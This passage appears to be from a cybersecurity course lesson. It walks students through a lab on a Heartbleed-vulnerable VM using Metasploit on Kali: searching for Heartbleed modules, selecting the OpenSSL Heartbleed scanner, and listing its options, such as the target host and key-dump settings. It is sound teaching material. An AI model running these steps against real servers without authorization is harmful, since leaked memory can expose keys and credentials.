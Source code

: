 In the following demonstration, we will use the Kali machine to exploit the Heartbleed VM. 

1. In Kali, launch a terminal and run `msfconsole`.


2. We will use MSFconsole to identify Heartbleed exploits.
  
   - Run `search heartbleed`

    ```bash
    msf > search heartbleed

    Matching Modules
    ================

       Name                                              Disclosure Date  Rank    Check  Description
       ----                                              ---------------  ----    -----  -----------
       auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak
       auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
    ```

   - Auxillary modules are reconnaissance tools. They're used to scan networks and detect vulnerabilities such as Heartbleed.

    The first module, `auxiliary/scanner/ssl/openssl_heartbleed`, is used to test a host for the Heartbleed vulnerability.
  
   - Run `use auxiliary/scanner/ssl/openssl_heartbleed`

3. Now, we need to configure the modules before using them. 

    Check which parameters we need to set:

     - Run `show options`

    ```
    msf > use  auxiliary/scanner/ssl/openssl_heartbleed
    msf auxiliary(scanner/ssl/openssl_heartbleed) > show options

    Module options (auxiliary/scanner/ssl/openssl_heartbleed):

      Name              Current Setting  Required  Description
      ----              ---------------  --------  -----------
      DUMPFILTER                         no        Pattern to filter leaked memory before storing
      LEAK_COUNT        1                yes       Number of times to leak memory per SCAN or DUMP invocation
      MAX_KEYTRIES      50               yes       Max tries to dump key
      RESPONSE_TIMEOUT  10               yes       Number of seconds to wait for a server response
      RHOSTS                             yes       The target address range or CIDR identifier
      RPORT             443              yes       The target port (TCP)
      ...
    ```

### 11. Activity: Attacking Heartbleed with Metasploit 

- [Activity File: Attacking Heartbleed with Metaploit](Activities/12_Metasploit_Heartbleed//Unsolved/README.md)
